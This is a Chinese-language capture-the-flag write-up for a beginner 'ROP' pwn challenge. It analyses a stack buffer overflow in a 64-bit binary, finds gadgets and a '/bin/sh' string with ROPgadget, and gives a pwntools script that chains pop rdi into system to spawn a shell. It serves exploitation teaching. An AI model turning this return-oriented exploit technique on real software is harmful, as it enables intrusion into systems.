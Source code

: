 ```yaml
---
title: ROP
author: 13m0n4de
difficulty: Medium
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/rop:latest
port: 70
writeup_author: pn1fg
tags:
  - rop
reference:
---
```


# ROP

## 题目描述

## 题目解析

### 查看文件信息

查看文件类型：

```
$ file rop
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=caa5a8688811dbd2d1f955cef1033593ff3f9c0d, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号。

查看保护机制：

```
$ checksec --file=rop
RELRO           Partial RELRO
STACK CANARY    No canary found
NX              NX enabled
PIE             No PIE
RPATH           No RPATH
RUNPATH	        No RUNPATH
Symbols		    74 Symbols
FORTIFY	        No
Fortified	    0
Fortifiable	    1
FILE            ret2text64
```

NX 保护。

### 分析漏洞成因

反编译 `vuln` 函数：

```c
[0x00401130]> s sym.vuln
[0x0040135a]> pdg

ssize_t vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  system("echo \"Hello CTFer, what's your name?\"");
  return read(0, buf, 0x100uLL);
}
```

很明显的栈溢出，`buf` 大小只有 0x40，但是 `read` 函数读取了 0x100，还看到了 `system` 函数，但可惜的是这里的 `system` 并没有执行 `/bin/sh`，所以我们无法直接跳转至此。

列出所有函数：

```
[0x00401130]> afl
0x004010b0    1     11 sym.imp.putchar
0x004010c0    1     11 sym.imp.puts
0x004010d0    1     11 sym.imp.system
0x004010e0    1     11 sym.imp.close
0x004010f0    1     11 sym.imp.read
0x00401100    1     11 sym.imp.setvbuf
0x00401110    1     11 sym.imp.open
0x00401120    1     11 sym.imp.__isoc99_scanf
0x00401130    1     46 entry0
0x00401170    4     31 sym.deregister_tm_clones
0x004011a0    4     49 sym.register_tm_clones
0x004011e0    3     32 sym.__do_global_dtors_aux
0x00401210    1      6 sym.frame_dummy
0x00401470    1      5 sym.__libc_csu_fini
0x0040135a    1    110 sym.vuln
0x004012d6    4    132 sym.b4ckd00r
0x00401478    1     13 sym._fini
0x0040127b    1     91 sym.banner
0x00401216    1    101 sym.init
0x00401400    4    101 sym.__libc_csu_init
0x00401160    1      5 sym._dl_relocate_static_pie
0x004013c8    1     45 main
0x00401000    3     27 sym._init
0x00401030    2     28 fcn.00401030
0x00401040    1     15 fcn.00401040
0x00401050    1     15 fcn.00401050
0x00401060    1     15 fcn.00401060
0x00401070    1     15 fcn.00401070
0x00401080    1     15 fcn.00401080
0x00401090    1     15 fcn.00401090
0x004010a0    1     15 fcn.004010a0
```

并没有发现后门函数。

这里给同学们介绍一个新的工具 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)，它的可以精确的查找程序中的一些汇编指令或字符串，例如查找 `/bin/sh`：

```
$ ROPgadget --binary=rop --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

很明显程序中存在 `/bin/sh` 这个字符串，那我们只需要控制程序执行流调用 `system` 函数执行 `/bin/sh` 即可。

[上一题](../ret2text64/README.md)我们讲述过 64 位程序传参需要通过寄存器，ROPgadget 也可以用来寻找修改寄存器的指令（`pop` + `ret`）：

```asm
$ ROPgadget --binary=rop --only 'pop|ret'
Gadgets information
============================================================
0x000000000040133c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040133e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401340 : pop r14 ; pop r15 ; ret
0x0000000000401342 : pop r15 ; ret
0x000000000040133b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040133f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040119d : pop rbp ; ret
0x0000000000401343 : pop rdi ; ret
0x0000000000401341 : pop rsi ; pop r15 ; ret
0x000000000040133d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret

Unique gadgets found: 11
```

### 编写利用程序

[exp.py](./writeup/exp.py):

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

elf = ELF("../attachments/rop")
io = process("../attachments/rop")

pop_rdi_ret = 0x00401343
ret = 0x0040101A

payload = flat(
    [
        cyclic(0x40),
        b"A" * 8,
        ret,
        pop_rdi_ret,
        elf.sym["secret"],
        elf.sym["system"],
    ]
)
io.sendafter(b"Hello CTFer, what's your name?\n", payload)

io.interactive()
```
